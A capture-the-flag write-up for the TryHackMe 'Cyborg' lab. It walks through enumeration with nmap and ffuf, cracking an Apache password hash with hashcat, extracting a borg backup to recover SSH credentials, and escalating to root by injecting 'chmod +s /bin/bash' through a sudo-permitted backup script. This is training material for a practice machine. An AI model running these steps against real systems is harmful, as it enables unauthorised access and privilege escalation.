 # Cyborg (THM)

- https://tryhackme.com/room/cyborgt8
- March 4, 2023
- easy

---

## Enumeration

### Nmap Initial

1. 22/tcp open ssh syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
2. 80/tcp open http syn-ack Apache httpd 2.4.18 ((Ubuntu))

### http

- directory brute forcing with ffuf

```
admin [Status: 301, Size: 314, Words: 20, Lines: 10]
etc   [Status: 301, Size: 312, Words: 20, Lines: 10]
```

#### Admin

- Download archive.tar from http://$IP/admin/archive.tar

- http://$IP/admin/admin.html

```
I heard these proxy things are supposed to make your website secure but i barely know how to use it so im probably making it more insecure in the process.
Might pass it over to the IT guys but in the meantime all the config files are laying about.
And since i dont know how it works im not sure how to delete them hope they don't contain any confidential information lol.
other than that im pretty sure my backup "music_archive" is safe just to confirm.
```

- unzip the tar file and in README file, it is said borgbackup.
- in borgbackup documentation, find the extract command
- https://borgbackup.readthedocs.io/en/stable/usage/extract.html

```sh
borg extract /path/to/repo::my-files
```

#### etc

- found two files

  - passwd, squid.conf

- crack apr (Apache) with hashcat and found password

```sh
$ hashcat -m 1600 music_hashes /usr/share/wordlists/rockyou.txt
# $apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:squidward
```

- it may be password for borg archive

```sh
$ borg extract archive/home/field/dev/final_archive::music_archive
# enter above password
```

- it will extract `home` folder
- /home/Documents/note.txt

```
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

## Get User Access

- enter ssh with above credentials

```sh
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh


alex@ubuntu:~$ ls -lah /etc/mp3backups/backup.sh
-r-xr-xr-- 1 alex alex 1.1K Dec 30  2020 /etc/mp3backups/backup.sh

alex@ubuntu:~$ cat /etc/mp3backups/backup.sh
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt

input="/etc/mp3backups/backed_up_files.txt"
while getopts c: flag
do
	case "${flag}" in
		c) command=${OPTARG};;
	esac
done
backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3"

# Where to backup to.
dest="/etc/mp3backups/"

# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd

```

- run the pspy64 and found that backup.sh file is running once per minute
- above script,

```sh
while getopts c: flag
do
	case "${flag}" in
		c) command=${OPTARG};;
	esac
done
...
cmd=$($command)
echo $cmd
```

## Get Root Access

- if backup.sh is run with -c flag, it will execute by root

```sh
alex@ubuntu:/tmp$ sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"
alex@ubuntu:/tmp$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1037528 Jul 12  2019 /bin/bash
alex@ubuntu:/tmp$ /bin/bash -p
bash-4.3# whoami
root
bash-4.3# cat /home/alex/user.txt
bash-4.3# cat /root/root.txt
```

---
